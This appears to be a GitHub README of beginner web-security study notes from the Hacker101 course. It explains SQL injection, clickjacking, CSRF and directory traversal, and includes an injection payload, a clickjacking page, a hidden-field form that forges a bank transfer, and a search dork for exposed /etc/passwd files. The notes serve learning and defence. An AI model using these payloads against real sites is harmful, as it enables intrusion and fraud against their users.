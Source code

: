 # 🕸 WebSec101 

# Motivation

This repo contains notes and PoC's I made while following the [Hacker101 sessions](https://www.hacker101.com/) and researching on my own. I figured out it can help someone who's interested in web security but doesn't know where to start. This are __rough__ notes, so take it with a grain of salt. I will continue adding information and correcting posible mistakes on the current notes. If you have suggestions, feel free to get in touch or submit a PR.  

In the folder ```Hacker101_sessions``` you will find theory on the most common web vulnerabilities, while in ```Hacker101_levels``` you will find PoC's on the multiple levels the platform offers to train.

## Useful Links

[Google's bughunter university](https://sites.google.com/site/bughunteruniversity/nonvuln)  
[Bug Bounty Forum](https://bugbountyforum.com/)  
[Cibrary](https://www.cybrary.it/)  
[HackerOne - Resources for new hackers](https://www.hackerone.com/blog/resources-for-new-hackers)  
[Damn Vulnerable Web Application - DVWA](http://www.dvwa.co.uk/)  
[Hacksplaining - Security training for developers](https://www.hacksplaining.com/)  
[Varonis - Web Security Fundamentals](https://info.varonis.com/web-security-fundamentals)  
[Hacker101.com - Free web class for web security](https://www.hacker101.com)  
[READ THIS BOOK - Get it free when signing up for a HackerOne account](https://leanpub.com/web-hacking-101)  
[Real World XSS Attacks #1: Introduction & Key JavaScript Principles](https://www.perspectiverisk.com/real-world-xss-attacks-1-introduction-key-javascript-principles/)

## Stuff

#### Very Basic SQLi

1. App accepts a form for username and password and runs SQL in some form.
1. Enter ```password``` as password, _should_ fail.
1. Enter ```password` ```. If app crashes, it may be vulnerable.
1. Enter ```' or 1=1--'``` as password. The "--" flag tells SQL to ignore the rest of the statement.

[Further explanation](https://www.hacksplaining.com/prevention/sql-injection)   
[Code samples](https://www.hacksplaining.com/prevention/sql-injection#code-samples)   

#### NoSQL Injection

[OWASP](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)  
[Blind](https://www.dailysecurity.fr/nosql-injections-classique-blind/)  

#### React Apps 

[Medium - Exploiting Script Injection Flaws in ReactJS Apps](https://medium.com/dailyjs/exploiting-script-injection-flaws-in-reactjs-883fb1fe36c1)  
[Medium - The Most Common XSS Vulnerability in React.js Applications](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)  

> By default, React DOM escapes any values embedded in JSX before rendering them. Thus it ensures that you can never inject anything that’s not explicitly written in your application. Everything is converted to a string before being rendered. This helps prevent XSS (cross-site-scripting) attacks.

> By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:

```
Content-Security-Policy: script-src 'self' https://apis.google.com
```

#### Clickjacking

An attacker iframes a webpage in a similar domain in order to trick the user.  
Basically, the iframe has a transparent div on top that will redirect to whatever place the attacker wants.

Code snippet:

```html
<html>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="www.kittens.com/vacuum-revenge">
    </iframe>
    <div>
      <a href="https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fwww.buttholebalm.com&p[title]=Itchy"></a>
    </div>
  </body>
</html>
```

#### CRSF Cross-Site Request Forgery

Imagine a site that accept posts from users via a GET request. Bob posts "I love burgers", so the request would look like:

```
GET http://examplecrappysite.com/post?text="I%20love%20burgers"
```

Now imagine Alice knows this, and knows Bob's email. She sends and email to him with the following text:

```
Look at this kitty fighting the vacuum cleaner in the CUTEST way! bit.ly/MALICIOUS_LINK 
```

YES. Malicious link is, indeed, malicious; and covers the following URL:

```
http://examplecrappysite.com/post?text="Look+at+this+kitty+fighting+the+vacuum+cleaner+in+the+CUTEST+way%21+bit.ly%2FMALICIOUS_LINK"
```

If Bob is logged in EXAMPLECRAPPYSITE, clicking the link will trigger a new post on his behalf:

```
Bob says: Look at this kitty fighting the vacuum cleaner in the CUTEST way! bit.ly/MALICIOUS_LINK 
```

If other users keep clicking that link, they will also trigger the action and the post will keep spreading.

_This can also be triggered in POST requests:_

[OWASP - CRSF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)):  

> Applications can be developed to only accept POST requests for the execution of business logic. The misconception is that since the attacker cannot construct a malicious link, a CSRF attack cannot be executed. Unfortunately, this logic is incorrect. There are numerous methods in which an attacker can trick a victim into submitting a forged POST request, such as a simple form hosted in an attacker's Website with hidden values. This form can be triggered automatically by JavaScript or can be triggered by the victim who thinks the form will do something else.

Imagine a banking site named BANKING. BANKING uses (as almost everyone) post requests to commit actions on behalf of their users. An example of a transaction form would look like this:

```html
<form action="http://api.banking.com/transaction" method="post">
    Quantity: <input type="text"></br>
    To Account: <input type="text"></br>
</form>
```

This form accepts a quantity to transfer to another account. So far so good.

Now, there's a new site called WHENWILLIDIE that accepts your name and your age and outputs your death date (SPOOKY). The form where users input their data looks like this:

```html
<form action="http://api.banking.com/transaction" method="post">
    Your name: <input type="text"><br>
    Your age: <input type="text"><br>
    <input type="submit">
    <input type="hidden" name="quantity" value="1000">
    <input type="hidden" name="toaccount" value="12345678">
</form>
```

When the user inputs their name and age, the site will secretly submit a from to api.banking.com to create a new transaction request, to account 12345678 for an ammount of 1000 (of whatever currency). If the user is still logged in after their last session, the request will go through.

#### Directory Traversal

[Hacker Noon - The Power of Directory Traversal](https://hackernoon.com/the-power-of-directory-traversal-93e8dfd608ef)  
[OWASP - Path Traversal](https://www.owasp.org/index.php/Path_Traversal)  

>A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).
This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”.

Dork:

```
inurl:../etc/passwd -intext:etc root:x
```